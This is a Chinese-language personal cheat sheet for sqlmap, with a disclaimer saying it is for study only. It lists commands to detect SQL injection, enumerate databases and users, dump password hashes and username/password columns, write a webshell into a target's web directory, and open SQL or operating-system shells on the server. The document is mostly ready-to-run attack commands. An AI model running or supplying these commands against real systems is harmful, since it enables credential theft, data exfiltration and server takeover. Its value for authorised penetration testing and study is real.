 # sqlmap 笔记

---

## 免责声明

`本人撰写的手册,仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关。`

---

**官网**
- https://github.com/sqlmapproject/sqlmap

**文章**
- [Sqlmap使用教程【个人笔记精华整理】 | 漏洞人生](http://www.vuln.cn/1992)

---

## 常见操作
**检测注入**
```bash
sqlmap -u URL   # 判断注入
sqlmap -u URL -p id # 指定参数注入
sqlmap -u URL --cookie="xxxxx"  # 带 cookie 注入
sqlmap -u URL --batch   # 不要请求用户输入，使用默认行为
sqlmap -r aaa.txt   # post型注入

sqlmap -u URL --os "Windows"    # 指定操作系统
sqlmap -u URL -dbms mysql -level 3   # 指定数据库类型为 mysql，级别为 3（共 5 级，级别越高，检测越全面）
sqlmap -u URL --dbms mysql --prefix "%df%27" --technique U -v 3   # 宽字节检测
sqlmap -u URL --proxy "socks5://127.0.0.1:1080" # 代理注入测试
sqlmap -u URL --referer "http://www.google.com" # 模拟来源
sqlmap -u URL --user-agent "Googlebot/2.1(+http://www.googlebot.com/bot.html)"  # 模拟谷歌蜘蛛
```

**获取信息**
```bash
sqlmap -u URL --current-db  # 获取当前数据库
sqlmap -u URL --dbs  # 枚举所有数据库
sqlmap -u URL -f    # 检查 DBMS 版本
sqlmap -u URL --is-dba  # 判断当前用户是否是 dba
sqlmap -u URL --users   # 列出数据库管理系统用户
sqlmap -u URL --privileges  # 枚举 DBMS 用户权限
sqlmap -u URL --passwords   # 获取当前数据库密码


sqlmap -u URL -D DATABASE --tables  # 获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns   # 获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump   # 获取指定表的列名
sqlmap -u URL -dbms mysql -level 3 -D test -T admin -C "username,password" -dump    # dump 出字段 username 与 password 中的数据
sqlmap -u URL --dump-all    # 列出所有数据库，所有表内容
```

**搜索字段**
```bash
sqlmap -r "c:\tools\request.txt" -dbms mysql -D dedecms --search -C admin,password   # 在 dedecms 数据库中搜索字段 admin 或者 password。
```

**读取与写入文件**

首先找需要网站的物理路径，其次需要有可写或可读权限。

- -file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
- -file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql xp_shell）
- -file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```bash
sqlmap -r aaa.txt --file-dest "e:\php\htdocs\dvwa\inc\include\1.php" --file-write "f:\webshell\1112.php"

# 注：mysql 不支持列目录，仅支持读取单个文件。sqlserver 可以列目录，不能读写文件，但需要一个 xp_dirtree 函数
```

**提权**
```bash
sqlmap -u URL --sql-shell   # 获取一个 sql-shell 会话
sqlmap -u URL --os-shell    # 获取一个 os-shell 会话
sqlmap -u URL --os-cmd=ipconfig # 在注入点直接执行命令
```
